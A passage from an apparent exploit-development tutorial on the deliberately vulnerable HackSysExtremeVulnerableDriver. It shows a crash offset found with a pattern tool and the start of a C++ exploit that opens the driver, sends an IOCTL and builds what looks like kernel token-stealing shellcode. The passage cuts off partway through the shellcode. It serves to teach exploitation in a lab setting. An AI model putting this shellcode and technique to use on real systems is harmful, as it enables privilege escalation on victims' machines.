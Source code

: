 ```
...Lm0Ln0Lo0\xb0\xb0\xd0\xba";
```

And we see I got an access violation at `306f4c30`.

![](/assets/images/AWE/intover5.PNG)

Using pattern again, I got the exact offset and we confirmed our suspicions. 
```
root@kali:~# python3 pattern.py -o 306f4c30
Exact offset found at position: 2088
```

From here on out, this plays out just like stack buffer overflow post, so please reference those posts if you have any questions! We initialize our shellcode, create a RWX buffer for it, move it there, and then use the address of the buffer to overwrite `eip` at that offset we found. 

## Final Code
```cpp
#include <iostream>
#include <string>
#include <iomanip>

#include <Windows.h>

using namespace std;

#define DEVICE_NAME         "\\\\.\\HackSysExtremeVulnerableDriver"
#define IOCTL               0x222027

HANDLE get_handle() {

    HANDLE hFile = CreateFileA(DEVICE_NAME,
        FILE_READ_ACCESS | FILE_WRITE_ACCESS,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (hFile == INVALID_HANDLE_VALUE) {
        cout << "[!] No handle to HackSysExtremeVulnerableDriver.\n";
        exit(1);
    }

    cout << "[>] Handle to HackSysExtremeVulnerableDriver: " << hex << hFile
        << "\n";

    return hFile;
}

void send_payload(HANDLE hFile) {

    char shellcode[] = (
        "\x60"
        "\x64\xA1\x24\x01\x00\x00"
        "\x8B\x40\x50"
        "\x89\xC1"
        "\x8B\x98\xF8\x00\x00\x00"
        "\xBA\x04\x00\x00\x00"
        "\x8B\x80\xB8\x00\x00\x00"
        "\x2D\xB8\x00\x00\x00"
```